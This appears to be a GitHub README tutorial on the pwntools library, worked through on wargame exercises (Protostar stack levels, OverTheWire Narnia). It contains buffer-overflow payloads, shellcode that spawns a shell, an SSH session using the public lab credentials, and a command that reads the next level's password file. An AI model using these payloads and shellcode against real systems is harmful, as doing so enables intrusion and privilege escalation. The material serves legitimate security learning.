








# Usage

<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>


- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```

- Script Output


</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>


- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>


- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output


	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>


- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output


</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>


- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>


- Completing the exercise with the found value


- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output


</p>
</details>

<details>
	<summary>:heavy_check_mark: Connecting to ssh </summary>
	<p>



- Code
```py
from pwn import *

# create a ssh connection with ssh() and the following parameters, by default the port varible will have the value of 22, if the ssh service is running in its default port, the port argument is not necessary to specify
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# the ssh() connects to the machine and gives some basic infomation about the machine
```

-Script Output

</details>

<details>
	<summary>:heavy_check_mark: Executing commands in ssh</summary>
	<p>



- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# initialising the sh shell with the process()
shell = session.process('sh')

# sending commands to the shell
shell.sendline("whoami")

# reviving the decoding the output from the ssh connection
print(str(shell.recvline(), 'utf-8'))
```

- Script Output

</details>

<details>
	<summary>:heavy_check_mark: Interactive Shell </summary>
	<p>



- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')
shell = session.process('sh')

# instead of executing a single command, a ssh like shell will be obtained. In which command i/o is possible
shell.interactive()

```

- Script Output

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Using Shellcraft</summary>
	<p>
- Shellcode taken from - [here](http://shell-storm.org/shellcode/files/shellcode-811.php)
- Shellcodes are instructions which the processor executes, these are hexadecimal characters 0x00 to 0xff 
- Every compiled application / program finally transforms into processor instructions inorder to execute
- The obtain shellcode from the above link is loaded in to the variable EGG with python (cause python2 handles all strings as 
bytes)



- Code
```py
from pwn import *
session = ssh(host='narnia.labs.overthewire.org', port=2226, user='narnia0', password='narnia0')

# generating the shellcode with pwntools
# shellcraft.linux.sh() - provides instructions to be performed in order to obtain shell
# asm() - converts the processor instructions to its equivalent opcodes
payload = asm(shellcraft.linux.sh())

shell = session.process('sh', env={"EGG":payload})
shell.sendline("/narnia/narnia1")

# obtains pseudo interactive shell as narnia2
shell.interactive()

shell.sendline("cat /etc/narnia_pass/narnia2")

```
</details>


## Often Used

28 bytes shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"